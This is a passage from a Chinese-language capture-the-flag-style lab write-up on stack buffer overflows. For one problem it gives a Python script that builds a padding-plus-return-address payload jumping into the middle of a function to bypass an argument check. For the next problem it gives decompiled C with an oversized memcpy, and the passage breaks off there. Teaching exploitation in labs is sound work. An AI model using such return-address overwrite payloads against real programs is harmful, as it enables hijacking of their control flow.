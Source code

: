 这个模型和第一题不能说有点相似，只能说一模一样。因此我们可以构造同样的一个 payload 来通过溢出攻击改变 return address。问题是这个题目和第一题不一样的地方在于 func2 并不是无脑输出正确结果，还要求 rdi 传递的第一个参数为 1016，而实际上在程序本身很难直接找到一段代码可以实现这个功能，同时我们也不能运行栈区代码（Nx Enabled），如此似乎进入了僵局。

可是，如果我们再思考一下，也没有规定只能从某个函数的函数头开始运行，如果我们能直接 call 到 func2 的第二个分支内部，那是不是我们就可以避免这一个判断条件呢？答案当然是可以的！~~盲生，你发现了华点！~~至此，问题得到了解决。

- **解决方案**：

```python
padding = b"\x00" * 16                              # 前导串，无意义
func2_address = b"\x4c\x12\x40\x00\x00\x00\x00\x00" # func2 的第二个分支的开始地址，用于改变 func 函数的返回地址
payload = padding + func2_address
with open("ans.txt", "wb") as f:
    f.write(payload)
print("Payload written to ans.txt")
```

- **结果**：

![problem2_AC](./imgs/problem2_result.png)

### Problem 3
- **分析**：

本题相对比较复杂，但是核心的思路也是一样的，先找可能导致栈溢出的地方，再找输出成功信息的函数并且想方法调出来即可。根据这个思路，我们依然先翻译几个函数：

```c
void func1(int x) {
  char buffer1[50];
  if (x == 114) {
    strcpy(buffer1, "Your lucky number is 114");
    memset(&buffer1[25], 0, 25);
  } else {
    strcpy(buffer1, "Error answer!");
    memset(&buffer1[14], 0, 36);
  }
  puts(buffer1);
  exit(0);
}

void func(char *s) {
  char buffer[32];
  saved_rsp = 当前的 rsp 地址;
  memcpy(buffer, s, 64);
  puts("Now, say your lucky number is 114!");
  puts("If you do that, I will give you great scores!");
}

int main(int argc, char *argv[]) {
    char payload[268];
	// 从 argv[1] 读取字符串到 payload，并输出一些提示信息
    func(payload);
	// 处理错误分支
}
```
